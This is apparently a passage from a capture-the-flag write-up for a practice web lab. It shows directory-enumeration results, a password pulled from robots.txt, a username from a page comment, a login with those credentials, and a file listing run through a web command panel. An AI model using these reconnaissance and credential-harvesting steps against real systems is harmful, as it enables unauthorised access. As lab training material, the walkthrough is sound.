 	```
	/.htaccess            (Status: 403) [Size: 297]
	/.hta                 (Status: 403) [Size: 292]
	/.htpasswd            (Status: 403) [Size: 297]
	/assets               (Status: 301) [Size: 315]
	/index.html           (Status: 200) [Size: 1062]
	/login.php            (Status: 200) [Size: 882]
	/portal.php           (Status: 302) [Size: 0] [--> /login.php]
	/robots.txt           (Status: 200) [Size: 17]
	/server-status        (Status: 403) [Size: 301]
	/.php                 (Status: 403) [Size: 292]
	```

* ### Robots.txt

	> curl $IP/robots.txt

	```
	Wubbalubbadubdub
	```

* ### Web app source code

	> curl $IP

	Found comment - Username: `R1ckRul3s`


<br>

## Attempting login ($IP/login.php):

	User: R1ckRul3s
	Password: Wubbalubbadubdub

Login successful as user `www-data`!


<br>

## Exploring web app:

Webpage allows a basic command execution panel.

* ### Executing commands

	> ls

	```
	Sup3rS3cretPickl3Ingred.txt
	assets
	clue.txt
	denied.php
	index.html
	login.php
	portal.php
	robots.txt
	```
